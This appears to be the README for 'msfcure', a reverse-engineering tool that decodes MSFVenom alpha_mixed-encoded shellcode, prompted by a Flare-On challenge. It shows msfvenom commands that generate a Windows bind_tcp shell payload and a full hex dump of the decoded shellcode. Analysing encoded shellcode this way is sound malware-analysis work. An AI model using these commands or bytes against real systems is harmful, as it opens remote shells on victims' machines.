 # msfcure
Script for extracting MSFVenom alpha encoded shellcode


In the 2020 Flare-On challenge 7, there was a particularly interesting PCAP challenge that had alpha encoded shellcode needing reverse engineering.

The following reference https://www.offensive-security.com/metasploit-unleashed/alphanumeric-shellcode/ explains how shellcode can be encoded using the following sample commands:
```
msfvenom -a x86 --platform windows -p windows/shell/bind_tcp -e x86/alpha_mixed
msfvenom -a x86 --platform windows -p windows/shell/bind_tcp -e x86/alpha_mixed BufferRegister=ECX
```

I tested the tool as follows:
1. Create sample shellcode using msfvenom and compute the MD5
```
$ msfvenom -a x86 --platform windows -p windows/shell/bind_tcp | md5sum
No encoder specified, outputting raw payload
Payload size: 309 bytes

9d1afa317810b4696498a67b46df37c2  -
```
The MD5 `9d1afa317810b4696498a67b46df37c2` is a reference md5sum for the unencoded shellcode.

2. Confirm that the Alphanumeric encoder generates "random" shellcode each time. I tested it by running this command a few times:

```
$ msfvenom -a x86 --platform windows -p windows/shell/bind_tcp -e x86/alpha_mixed BufferRegister=ECX | md5sum
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 671 (iteration=0)
x86/alpha_mixed chosen with final size 671
Payload size: 671 bytes

b4bce591c0eea015776664eec6753963  -
$ msfvenom -a x86 --platform windows -p windows/shell/bind_tcp -e x86/alpha_mixed BufferRegister=ECX | md5sum
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 671 (iteration=0)
x86/alpha_mixed chosen with final size 671
Payload size: 671 bytes

86a1225b8638d350d9b881b0e6937bc9  -
$ msfvenom -a x86 --platform windows -p windows/shell/bind_tcp -e x86/alpha_mixed BufferRegister=ECX | md5sum
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 671 (iteration=0)
x86/alpha_mixed chosen with final size 671
Payload size: 671 bytes

91bca0838334944f57df12c45af2d0fe  -
```
3. I wrote the file out to disk:

```
$ msfvenom -a x86 --platform windows -p windows/shell/bind_tcp -e x86/alpha_mixed BufferRegister=ECX > win_shell_bindtcp_alpha_mixed
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 671 (iteration=0)
x86/alpha_mixed chosen with final size 671
Payload size: 671 bytes
```

4. I used the msfcure tool to decode the payload:
```
$ python3 msfcure.py --dump win_shell_bindtcp_alpha_mixed 
win_shell_bindtcp_alpha_mixed: Detected 'rex/encoder/alpha2/alpha_mixed'
00000000: FC E8 82 00 00 00 60 89  E5 31 C0 64 8B 50 30 8B  ......`..1.d.P0.
00000010: 52 0C 8B 52 14 8B 72 28  0F B7 4A 26 31 FF AC 3C  R..R..r(..J&1..<
00000020: 61 7C 02 2C 20 C1 CF 0D  01 C7 E2 F2 52 57 8B 52  a|., .......RW.R
00000030: 10 8B 4A 3C 8B 4C 11 78  E3 48 01 D1 51 8B 59 20  ..J<.L.x.H..Q.Y 
00000040: 01 D3 8B 49 18 E3 3A 49  8B 34 8B 01 D6 31 FF AC  ...I..:I.4...1..
00000050: C1 CF 0D 01 C7 38 E0 75  F6 03 7D F8 3B 7D 24 75  .....8.u..}.;}$u
00000060: E4 58 8B 58 24 01 D3 66  8B 0C 4B 8B 58 1C 01 D3  .X.X$..f..K.X...
00000070: 8B 04 8B 01 D0 89 44 24  24 5B 5B 61 59 5A 51 FF  ......D$$[[aYZQ.
00000080: E0 5F 5F 5A 8B 12 EB 8D  5D 68 33 32 00 00 68 77  .__Z....]h32..hw
00000090: 73 32 5F 54 68 4C 77 26  07 FF D5 B8 90 01 00 00  s2_ThLw&........
000000A0: 29 C4 54 50 68 29 80 6B  00 FF D5 6A 0B 59 50 E2  ).TPh).k...j.YP.
000000B0: FD 6A 01 6A 02 68 EA 0F  DF E0 FF D5 97 68 02 00  .j.j.h.......h..
000000C0: 11 5C 89 E6 6A 10 56 57  68 C2 DB 37 67 FF D5 85  .\..j.VWh..7g...
000000D0: C0 75 58 57 68 B7 E9 38  FF FF D5 57 68 74 EC 3B  .uXWh..8...Wht.;
000000E0: E1 FF D5 57 97 68 75 6E  4D 61 FF D5 6A 00 6A 04  ...W.hunMa..j.j.
000000F0: 56 57 68 02 D9 C8 5F FF  D5 83 F8 00 7E 2D 8B 36  VWh..._.....~-.6
00000100: 6A 40 68 00 10 00 00 56  6A 00 68 58 A4 53 E5 FF  j@h....Vj.hX.S..
00000110: D5 93 53 6A 00 56 53 57  68 02 D9 C8 5F FF D5 83  ..Sj.VSWh..._...
00000120: F8 00 7E 07 01 C3 29 C6  75 E9 C3 BB F0 B5 A2 56  ..~...).u......V
00000130: 6A 00 53 FF D5                                    j.S..
Writing decoded shellcode to win_shell_bindtcp_alpha_mixed.msfcure
```

5. I confirmed that the MD5 of the dumped shellcode matches the reference shellcode:
```
$ md5sum win_shell_bindtcp_alpha_mixed.msfcure 
9d1afa317810b4696498a67b46df37c2  win_shell_bindtcp_alpha_mixed.msfcure
```
